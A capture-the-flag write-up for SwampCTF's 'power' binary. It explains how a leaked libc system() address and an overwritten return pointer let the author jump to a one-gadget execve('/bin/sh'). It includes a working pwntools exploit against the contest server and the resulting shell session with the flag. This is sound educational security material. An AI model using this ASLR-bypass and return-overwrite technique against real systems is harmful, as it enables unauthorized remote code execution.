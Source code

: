### Solved by superkojiman

We're given a binary called power and its corresponding libc.so for this challenge. The binary comes compiled with a bunch of security options enabled:

```
# checksec  power
[*] '/root/work/pwn/power/power'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    FORTIFY:  Enabled
```

Based on that, I assumed that ASLR was probably enabled on the target server as well. 

When we run a binary, an address is leaked to us: 

```
# ./power
Mage: The old books speak of a single Power QWord that grants
      its speaker a direct link to The Source.
Mage: Do you believe in such things? (yes/no): yes
Mage: Show me your conviction to The Source.
      Take this basis [the mage hands you 0x7f761dfe8390]
      and speak the Power QWord: hello
```

If we poke around the disassembly we can see that this is actually the address of `system()` in libc: 

![](/images/2018/swampctf/power/01.png)

After that, it calls `fread()` and writes our input into `rbp+8` which is the saved return pointer: 

![](/images/2018/swampctf/power/02.png)

We can basically control where we want to go. The easy solution is to jump to a one-gadget-rce. To do this we get the offset of `system()` in the provided libc.so and subtract that from the leaked address. This gives us libc's base address. Here's the offset for `system()`: 

```
# readelf -s libc.so.6 | grep  system@@GLIBC_2
  1351: 0000000000045390    45 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.2.5
``` 

Then we find the offset of a one-gadget-rce in libc.so, add that to libc's base address, and return to that address. Here are the possible options for a one-gadget-rce:

```
# one_gadget ./libc.so.6
0x45216 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf02a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1147 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

Putting it all together gives us the following exploit:

```
#!/usr/bin/env python

from pwn import *

r = remote("chal1.swampctf.com", 1999)

print r.recv()
r.sendline("yes")
d = r.recv()

system_offset = 0x45390

addr =  d.split()[-6][:-1]
print "system():", addr

libc_base = int(addr, 16) - system_offset
print "libc base:", hex(libc_base)

og_offset = 0x45216

og = libc_base + og_offset
print "one-gadget rce:", hex(og)

r.sendline(p64(og))
r.interactive()
```

Executing it gives us a shell on the target and access to the flag:

```
# ./sploit.py
[+] Opening connection to chal1.swampctf.com on port 1999: Done
Mage: The old books speak of a single Power QWord that grants
      its speaker a direct link to The Source.
Mage: Do you believe in such things? (yes/no):
system(): 0x7f8051ece390
libc base: 0x7f8051e89000
one-gadget rce: 0x7f8051ece216
[*] Switching to interactive mode
$ ls
flag
power
$ cat flag
flag{m4g1c_1s_4ll_ar0Und_u5}
$
```
